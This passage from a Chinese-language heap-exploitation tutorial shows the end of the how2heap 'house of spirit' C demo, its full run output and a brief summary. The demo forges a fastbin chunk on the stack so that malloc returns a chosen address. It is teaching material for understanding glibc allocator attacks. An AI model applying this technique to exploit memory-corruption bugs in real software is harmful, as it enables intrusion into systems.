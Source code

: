 ```c
	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

運行後的效果如下

```shell
➜  how2heap git:(master) ./house_of_spirit
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
malloc(0x30): 0x7ffd9bceaa60
```

### 小總結

可以看出，想要使用該技術分配 chunk 到指定地址，其實並不需要修改指定地址的任何內容，**關鍵是要能夠修改指定地址的前後的內容使其可以繞過對應的檢測**。

## Alloc to Stack

### 介紹
